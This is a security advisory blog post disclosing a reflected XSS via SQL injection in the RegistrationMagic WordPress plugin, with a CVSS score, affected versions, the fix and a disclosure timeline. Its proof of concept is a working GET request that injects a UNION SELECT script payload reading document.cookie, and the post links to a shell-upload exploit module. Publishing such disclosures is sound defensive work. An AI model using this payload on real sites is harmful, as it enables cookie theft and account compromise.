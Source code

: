 ```yaml
---
layout: post
title: RegistrationMagic - Custom Registration Forms <= 3.7.9.2 Reflected XSS
date: 2017-12-10
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - registrationmagic
  - reflected xss
excerpt: Using an SQL injection vulnerability, arbitrary markup can be reflected back to the user, achieving JavaScript execution in the context of the authenticated user.
---
```

## Homepage
[https://wordpress.org/plugins/custom-registration-form-builder-with-submission-manager/](https://wordpress.org/plugins/custom-registration-form-builder-with-submission-manager/)

## Overview
Using an SQL injection vulnerability, arbitrary markup can be reflected back to the user, achieving JavaScript execution in the context of the authenticated user.

See [This Link](https://www.rastating.com/registrationmagic-custom-registration-forms-3-7-9-2-authenticated-sql-injection) for information on the SQL injection vulnerability.

## CVSS Score
4.8

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C)](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C))

## Versions Affected
3.7.9.2 and below

## Solution
Update to version 3.7.9.3 or higher

## Proof of Concept
```
GET /wp-admin/admin.php?page=rm_field_manage&rm_form_id=-1+union+select+1%2C2%2C3%2C%27%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E%27%2Cconcat(0x54%2C0x65%2C0x78%2C0x74%2C0x62%2C0x6f%2C0x78)%2C6%2C7%2C8%2C9%2C10%2C11
```

## WordPress Exploit Framework Module
[exploit/xss/reflected/registrationmagic\_reflected\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/lib/wpxf/modules/exploit/xss/reflected/registrationmagic_reflected_xss_shell_upload.rb)

## WPVDB-ID
[8976](https://wpvulndb.com/vulnerabilities/8976)

## Disclosure Timeline
* **2017-10-04**: Initial discovery
* **2017-12-10**: Released public disclosure

